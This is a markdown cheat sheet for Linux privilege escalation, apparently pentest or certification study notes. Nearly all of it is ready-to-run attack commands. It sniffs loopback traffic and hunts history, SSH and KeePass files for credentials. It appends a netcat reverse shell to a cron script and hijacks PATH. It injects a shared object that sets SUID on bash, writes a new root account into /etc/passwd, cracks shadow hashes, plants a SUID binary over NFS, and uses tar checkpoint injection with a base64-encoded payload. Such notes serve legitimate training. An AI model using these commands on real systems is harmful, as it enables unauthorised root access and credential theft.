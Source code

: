 # 🐧 Linux Privesc

## Enumeration

```shell
# user
id
whoami

# system
hostname

# net
ifconfig
ip a
ip route
route
routel
sudo tcpdump -i lo -A | grep "pass"

# connections
ss -ntplu
netstat -ntplu

# users
cat /etc/passwd

# OS info
cat /etc/issue
cat /etc/*release
uname -a

# processes
ps aux
# wide
ps auxww
# tree
ps axjf

# installed apps on system (debian-based)
dpkg -l

# find writable paths
find / -writable -type d 2>/dev/null

# list drives mounted at boot time 
cat /etc/fstab
mount
lsblk # show available disks

# list loaded kernel modules and get specific info to find an exploit
lsmod
/sbin/modinfo <module>
```

!!! tip
    🍪 Try to switch users using username as pass

## User trails

```shell
# env vars
env
# .bashrc config
cat .bashrc
watch -n 1 "ps -aux | grep pass"
```

## Interesting Files

```shell
# check history
history
cat ~/.*history | less

# config files
find /home/<user> -type f \( -name "*.txt" -o -name "*.conf" -o -name "*.ini" \) 2>/dev/null

# .ssh folder
find /home/<user> -type d -name ".ssh" 2>/dev/null

# kdbx files
find / -name "*.kdbx" 2>/dev/null
```

## Cron jobs

!!! tip
    🍪 Examine periodic processes with [pspy](https://github.com/DominicBreuker/pspy)

```shell
ls -lah /etc/cron*
# current user's jobs
crontab -l
# root user's jobs
sudo crontab -l

# inspect cron logs
grep "CRON" /var/log/syslog

# reverse shell to cron file
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> > /tmp/f" >> scripts/user_backups.sh 
```

## SUID/SGID/Sudo/Caps

!!! tip
    🍪 Check [GTFOBins](https://gtfobins.github.io/) for escaping the programs

```shell
# find programs and groups with bit
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# list capabilities
/usr/sbin/getcap -r / 2>/dev/null

# check sudo privs
sudo -l
```

### Path Hijacking

A SUID executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Run **strings** on the file to look for strings of printable characters:

```shell
strings <suidexecutable>
```

One line (`apache2`) suggests that the service executable is being called to start the webserver, however the full path of the executable (`/usr/sbin/service`) is not being used.

Create a malicious file in a writable path and call it like the file the SUID executable calls.

```shell
echo '/bin/bash -p' > /tmp/apache2
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid executable to gain a root shell:

```shell
export PATH=/tmp:$PATH
```

```shell
apache2
```

### Shared Object Injection

A SUID executable can be vulnerable to shared object injection.

First, execute the file and notice the missing object error.

If there is no feedback, run **strace** on the file and search the output for open/access calls and for "no such file" errors:

```shell
strace suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the `.config/libcalc.so` shared object within the home directory, but it cannot be found.
Create the **.config** directory for the `libcalc.so` file: `mkdir .config`

After knowing the path, compile a malicious code into a shared object at the location the **suid-so** executable is looking for:

```c
#include <stdlib.h>

__attribute__((constructor)) void make_setuid() {
    system("chmod +s /bin/bash");
}
```

```shell
gcc -shared -fPIC libcalc.c -o libcalc.so 
```

Execute `/bin/bash -p` to gain a root shell.

```shell
/bin/bash -p
```

## Weak file permissions

!!! info
    🐈‍⬛ Hashcat mode -> 1800

```shell
# check if /etc/shadow can be readed and combine it with /etc/passwd to crack it
unshadow passwd shadow > passwords.txt
john --wordlist=<wordlist> passwords.txt

# check if /etc/shadow can be writable and put a new root hash
mkpasswd -m sha-512 newpassword

# check if /etc/passwd can be writable and put a new root hash
openssl passwd newpass
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Kernel exploits

```shell
cat /etc/issue
uname -r
arch

# find a public exploit
searchsploit <name>
```

## Automated Scripts

- [linPEAS.sh](https://github.com/peass-ng/PEASS-ng?tab=readme-ov-file)
- [Liinux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)

## NFS

```shell
# mountable shares
cat /etc/exports
showmount -e <ip>

# mount a share
mkdir /tmp/share
mount -o rw <ip>:<share> /tmp/share

# using Kali's root user, generate a payload and save it to the mounted share
# using Kali's root user, make the file executable and set the SUID permission:
chmod +xs share/shell.elf

# on the victim, as the low privileged user, execute the file to gain a root shell:
/<share_path>/shell.elf
```

## Tar Wildcard

A script that uses tar with a wildcard ( * ) is vulnerable to arbitrary command execution via maliciously crafted checkpoint files in the target directory.

```shell
echo -n 'chmod +s /bin/bash' | base64
> Y2htb2QgK3MgL2Jpbi9iYXNo

touch -- "--checkpoint=1"
touch -- '--checkpoint-action=exec="echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash"'
```
